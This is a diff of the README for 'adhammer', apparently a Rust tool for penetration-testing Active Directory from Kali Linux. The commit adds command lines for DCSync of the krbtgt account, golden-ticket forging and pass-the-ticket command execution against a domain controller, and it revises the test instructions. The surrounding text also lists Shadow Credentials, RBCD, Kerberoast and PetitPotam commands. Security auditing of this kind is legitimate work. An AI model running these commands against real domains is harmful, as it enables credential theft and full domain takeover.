

Before and after one commit to icedracon/adhammer, a Markdown page: README.md, 2 parts joined by grey strips. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -53,7 +82,16 @@ adhammer attack rbcd   --account ... --account-password ... --realm CORP.LOCAL -
 # Shadow Credentials (two phases, same subcommand):
 adhammer attack abuse --url ldaps://... --user ... --password ... --insecure --action add-keycred --target victim
 adhammer attack abuse --action pkinit --target victim --realm CORP.LOCAL --kdc dc.corp.local   # → victim.ccache
+
+# DCSync a target (NT hash + Kerberos keys), then forge + use a golden ticket:
+adhammer attack dcsync --host dc.corp.local --domain CORP --user Administrator --password ... --target krbtgt
+adhammer attack golden --kdc dc.corp.local --realm CORP.LOCAL --krbtgt-aes256 <64-hex> --domain-sid S-1-5-21-a-b-c --verify-spn cifs/dc.corp.local
+adhammer attack pth    --host dc.corp.local --realm CORP.LOCAL --krbtgt-aes256 <64-hex> --domain-sid S-1-5-21-a-b-c --spn cifs/dc.corp.local --command whoami
 ```
+
+Prefer the interactive menu — `adhammer` with no args — for golden/silver/pass-the-ticket: it
+auto-fetches the krbtgt/service key (DCSync) and the domain SID (LSAT) from your session, so you
+never paste a key or SID by hand.
 
 `attack abuse` also does `add-spn` (targeted Kerberoast), `add-member`, `set-password`, and
 `write-rbcd`. `attack coerce` is PetitPotam / MS-EFSR.
@@ -181,16 +219,20 @@ LocalSystem` chain succeeds from Kali against the patched DC.
 
 See **[VECTORS.md](VECTORS.md)** for the full closed / partial / open vector matrix and roadmap.
 
-## Build & test
+## Test
 
 ```sh
-cargo build --release      # target/release/adhammer(.exe)
-cargo test --workspace     # 109 unit tests
+cargo test --workspace     # hermetic unit tests (no network)
 ```
 
-Requires Rust 1.80+. Runs from Kali/Linux against Windows (Kali → Windows is the point;
-PingCastle is Windows-only). `ldap3` links platform TLS (native-tls) so LDAPS works against
-legacy DCs whose handshake still uses SHA-1 — which rustls refuses.
+The workspace's 56 unit tests cover the audit/graph/kerberos/secrets layers; the protocol-stack
+tests (~50 more) live in the extracted crates (`windows-sddl`/`ntlmssp`/`smb2-client`/`dcerpc`).
+Live-DC integration tests in `cli/tests/integration.rs` are `#[ignore]`d — run them against a lab
+with `ADH_DC=… ADH_PASS=… cargo test --test integration -- --ignored`.
+
+Runs from Kali/Linux against Windows (Kali → Windows is the point; PingCastle is Windows-only).
+`ldap3` links platform TLS (native-tls) so LDAPS works against legacy DCs whose handshake still
+uses SHA-1 — which rustls refuses.
 
 ## Status & caveats
 
````
Also changed, not shown: other parts of README.md (+32 -3 lines), docs/demo.gif (added).
